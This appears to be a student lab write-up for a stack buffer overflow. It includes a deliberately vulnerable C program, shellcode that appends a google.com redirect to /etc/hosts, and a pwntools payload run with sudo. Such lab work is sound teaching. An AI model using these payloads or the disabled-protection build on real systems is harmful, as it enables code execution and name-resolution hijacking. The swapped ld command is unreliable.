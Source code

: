 # Lab #1
## Task 1: Software buffer overflow attack

### 1. Compile asm program and C program to executable code:
*Note: Both files are to be put in the same folder*

***Compile vuln.c:***

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
*The function strcpy(buffer, argv[1]) copies data into the buffer without checking for overflow, making it vulnerable.*

To compile the vulnerable C program without security mechanisms, run:

```sh
gcc -g -m32 vuln.c -o vuln.out -fno-stack-protector -z execstack 
```

Here, -fno-stack-protector disables stack protection, and -z execstack
allows execution on the stack (where the shell code will be placed).

***Compile sh.asm:***

```asm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

Then, compile it using nasm and ld:

```sh
nasm -f elf sh.asm -o sh.o
ld -m elf_i386 sh -o sh.o
```

This will generate an object file from the assembly file.

### 2. Trigger the buffer overflow
"Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux."

#### Step 1: Extract shellcode from the binary
*We use objdump to extract the byte sequence for the attack:*

```sh
objdump -d sh | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//' | sed 's/ /\\x/g' | paste -d '' -s
```

*Which gives this after cleaning:*

```\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d```

#### Step 2: Identify the offset
*(Where the buffer overflows into the return address)*

```sh
gdb -q vuln.out
gdb-peda$ run $(python -c 'print "A"*20')
```

[img 1]
Here, we can see `0xffffd740 ('A' <repeats 20 times>)` on the stack. The buffer is stored here, which is likely to be where the shell code is placed after the overflow. 

### 3: Construct the payload and conduct the attack
#### Step 1: Construct the payload

```py
from pwn import *

payload = b"A" * 20  # Fill the buffer and EBP to go straight to the return address
payload += b"\x40\xd7\xff\xff"  # Overwrite EIP, address where execution will jump to after overflow
payload += b"\x90" * 200  # NOP sled in case return address is off
payload += b"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d"  # Shell code

with open("payload.txt", "wb") as f:
    f.write(payload)
```

#### Step 2: Run and verify attack

##### 1. Run the program (with root permission)
```sh
sudo ./vuln.out "$(cat payload.txt)"
```

[img 2]

##### 2. Verify the changes
```sh
cat /etc/hosts
```

[img 3]
















